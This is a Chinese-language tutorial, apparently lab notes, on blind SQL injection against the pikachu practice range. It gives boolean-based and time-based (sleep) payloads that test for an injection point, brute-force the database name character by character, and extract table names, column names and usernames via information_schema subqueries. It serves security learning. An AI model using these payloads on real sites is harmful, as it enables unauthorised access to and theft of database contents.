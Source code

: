 # 盲注

---

（本案例使用pikachu靶场）

盲注分为 布尔注入 和 延迟注入 



## 布尔注入 （base on boolian）

根据页面返回的是否正常来判断查询语句是否正确

1.判断注入点（使用kobe'  or 1=1# 去测试发现是不行的均不存在用户）------------------------------

```
kobe' and 1=1#    #显示kobe用户信息

kobe' and 1=2#    #用户不存在
```



2.判断语句（长度和每个字符串）------------------------------------------------------------

```
kobe' and length(database())>8#    #回显错误，用户不存在，代表当前库名长度小于8

kobe' and length(database())=7#    #回显正确返回kobe用户信息，代表当前库名长度为7
```



只能用判断法进行爆破 （substr(str,pop,len)从str里面截取字符串， 从pop位开始，len截取长度）

```
kobe’ and ascii(substr(database(),1,1))>113#  #回显错误，用户不存在

kobe’ and ascii(substr(database(),1,1))=112#  #回显正确返回kobe用户信息
```



3.数据库表、字段、数据信息（先爆破表名长度，再爆破每个字符串）------------------------------

```
kobe' and length(注入语句)=7#    #爆破表名长度

kobe' and ascii(substr(注入语句,1,1))=113#   #爆破表名的每个字的ascii码
```



注入语句如下：

```
(select table_name from information_schema.tables where table_schema=database() limit 0,1)  #取从0开始1个表名，改0则换表

(select column_name from information_schema.columns where table_name = 'users' limit 0,1) # 查询users表中从0开始1个字段，改0则换字段

(select username from users limit 0,1) #查询user表中username字段从0开始1个数据，改0则换数据
```







## 延时注入 （base on time）

根据页面返回时间来判断是否实现查询来判断是否存在注入

1.判断注入点（使用F12调试工具查看响应时间）--------------------------

```
kobe' and sleep(10)#
(select*from(select(sleep(20)))a)
```

2.判断语句------------------------------------------------------------

根据响应时间来判断从字符长度

```
kobe' and if(length(database())='字母',sleep(5),1)#
```



根据响应时间来确定每个字符串（可以调高点延时）

```
kobe' and if(substr(database(),1,1)='字母',sleep(5),1)#       

kobe' and if(substr(database(),2,1)='字母',sleep(5),1)# 
```



3.数据库表、字段、数据信息（先爆破表名长度，再爆破每个字符串）------------------------------

```
kobe' and if(length(注入语句)='字母',sleep(5),1)#

kobe' and if(substr(注入语句,1,1)='字母',sleep(5),1)# 
```



注入语句如下：

```
(select table_name from information_schema.tables where table_schema=database() limit 0,1)  #取从0开始1个表名，改0则换表

(select column_name from information_schema.columns where table_name = 'users' limit 0,1) # 查询users表中从0开始1个字段，改0则换字段

(select username from users limit 0,1) #查询user表中username字段从0开始1个数据，改0则换数据 
```

